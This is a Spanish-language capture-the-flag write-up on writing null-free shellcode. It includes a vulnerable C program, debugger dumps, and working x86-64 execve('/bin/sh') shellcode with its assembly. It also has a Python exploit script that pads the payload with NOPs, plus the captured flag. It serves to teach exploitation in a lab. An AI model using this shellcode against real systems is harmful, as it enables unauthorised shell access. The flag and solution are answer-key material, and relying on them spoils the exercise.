 # Shellcode Restringido

A menudo, nuestro input comienza su viaje hacia el runtime de un proceso como un string estilo C. En otras ocasiones, nuestro input debe pasar varias verificaciones de formato o lógica antes de llegar a una ubicación vulnerable en el código.

Este nivel te dará práctica navegando el proceso de shellcoding frente a una restricción común: la ausencia requerida de bytes NULL.

Resultados de Aprendizaje
Familiarizarte con la modificación de shellcode para cumplir restricciones contextuales

---


## Restricciones de Bytes NULL

La mayoría de las funciones estándar de la biblioteca C que operan en strings usan el byte null (`0x00`) como terminador. Dejarán de procesar datos una vez que encuentren un byte null.

Esto puede ser problemático para el shellcode, ya que estas funciones de manipulación de strings son a menudo cómo introducimos nuestro shellcode en un proceso en ejecución.

Intenta ejecutar el shellcode a continuación:

```python
shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
```

## Ensamblador del Shellcode original

```asm

xor    esi,esi
movabs rbx,0x68732f6e69622f
push   rsi
push   rbx
push   rsp
pop    rdi
push   0x3b
pop    rax
xor    edx,edx
syscall

``` 


---
#### Código
```C
// gcc -g -I ../includes -O0 -z execstack -fno-stack-protector -no-pie -o nullfree nullfree.c
#include <stdio.h>
#include <string.h>

// Oculto por simplicidad
#include <wargames.h>

void main()
{
    init_wargame();

    printf("------------------------------------------------------------\n");
    printf("--[ Shellcoding - Shellcode Libre de NULL                   \n");
    printf("------------------------------------------------------------\n");

    // Buffer para almacenar input del usuario y shellcode
    char buffer[512] = {};
    char shellcode[512] = {};
   
    // A menudo el shellcode entrará a un proceso como string
    printf("Ingresa un string: ");
    fgets(buffer, sizeof(buffer), stdin);

    // Las funciones de string como strcpy dejarán de copiar datos al
    // alcanzar el primer byte NULL (el terminador NULL)
    strncpy(shellcode, buffer, sizeof(shellcode));
    memset(buffer, 0, sizeof(buffer));

    // Como resultado, a menudo es necesario escribir shellcode
    // que esté libre de cualquier byte 'NULL' (\x00)
    printf("Llamando lo que debe ser shellcode 'libre de NULL'...\n");
    ((void (*)(void))shellcode)(); // Llamada al shellcode
}
```

---

Como se podría haber esperado, el shellcode proporcionado no funcionó "out of the box".
Investiguemos esto estableciendo un breakpoint en la instrucción `call` que ejecuta nuestro shellcode y ejecutando nuestro script de python nuevamente.

``` 
wdb> continue
Breakpoint 1: 0x40087a, main+221
```

---

Ahora, vamos a volcar el contenido de `$rax` tanto como instrucciones como datos para ver qué está pasando:

```
wdb> x/10i $rax
wdb> x/40bx $rax
```

```
wdb> x/10i $rax
0x7fffffffe9d0: xor esi, esi
0x7fffffffe9d2: movabs rbx, 0x68732f6e69622f
0x7fffffffe9dc: add byte ptr [rax], al
0x7fffffffe9de: add byte ptr [rax], al
0x7fffffffe9e0: add byte ptr [rax], al
0x7fffffffe9e2: add byte ptr [rax], al
0x7fffffffe9e4: add byte ptr [rax], al
0x7fffffffe9e6: add byte ptr [rax], al
0x7fffffffe9e8: add byte ptr [rax], al
0x7fffffffe9ea: add byte ptr [rax], al

wdb> x/40bx $rax
0x7fffffffe9d0: 0x31 0xf6 0x48 0xbb 0x2f 0x62 0x69 0x6e
0x7fffffffe9d8: 0x2f 0x73 0x68 0x00 0x00 0x00 0x00 0x00
0x7fffffffe9e0: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0x7fffffffe9e8: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0x7fffffffe9f0: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
```

`0x68732f6e69622f = /bin/sh`

---

Mirando la salida de los dos comandos, podemos ver que solo una pequeña porción de nuestro shellcode original fue copiada al buffer
Esto se debe a que `strncpy` se detiene en los bytes null

---

## Exploit

```python
import interact
import struct

# Empaqueta el entero 'n' en una representación de 8 bytes
def p64(n):
    return struct.pack('Q', n)

# Desempaqueta el string de 8 bytes 's' en un entero de Python
def u64(s):
    return struct.unpack('Q', s)[0]

p = interact.Process()
# data = p.readuntil('\n')
shellcode = b"\x31\xF6\x48\xBB\x2F\x2F\x62\x69\x6E\x2F\x73\x68\x56\x53\x54\x5F\x6A\x3B\x58\x31\xD2\x0F\x05"

# Relleno de NOPs para completar los 511 bytes.
padding = b'\x90' * (511 - len(shellcode))

# Payload final.
payload = shellcode + padding

p.readuntil(b'Enter a string: ')

p.sendline(payload)

p.interactive()
```

---
## Ensamblador de Shellcode corregido

```asm
xor    esi,esi
movabs rbx,0x68732f6e69622f2f
push   rsi
push   rbx
push   rsp
pop    rdi
push   0x3b
pop    rax
xor    edx,edx
syscall
```

`0x68732f6e69622f2f = //bin/sh`

### Solución
Ese null byte del shellcode original puede ser evitado usando `//bin/sh` en lugar de `/bin/sh`. Pues al tener 7 bytes, el resto del registro se llena con ceros automáticamente.
Entonces si agregamos una `/` más se alinea correctamente y no necesitamos el null byte. (Y agregar los `NOP` al final para completar los 511 bytes).
Estos 512 bytes son necesarios porque el buffer del programa es de 512 bytes y `strncpy` copiará hasta 511 bytes y luego agregará un null byte al final.

---

``` 
 python3 exploit.py

Calling what must be 'NULL-free' shellcode...

$ 

>> cat flag

flag{4ll_sh3llc0de_c4n_b3_m4de_null_fr33}

[Process Terminated. Press Enter To Return]
```

``` 
flag{4ll_sh3llc0de_c4n_b3_m4de_null_fr33}
```